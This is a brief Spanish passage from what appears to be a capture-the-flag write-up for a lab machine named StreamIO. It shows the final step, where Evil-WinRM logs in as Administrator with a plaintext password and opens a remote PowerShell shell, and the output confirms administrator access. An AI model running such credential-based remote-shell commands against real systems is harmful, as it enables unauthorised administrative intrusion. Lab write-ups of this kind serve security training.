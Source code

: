 Y finalmente ahora con Evil-WinRM podemos conectarnos como Administrator con la contraseña TEMPORAL
```ruby
❯ evil-winrm -i 10.10.11.158 -u 'administrator' -p 'nUaf7Fz9,8ysY@'

Evil-WinRM shell v3.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
streamio\administrator
```

...
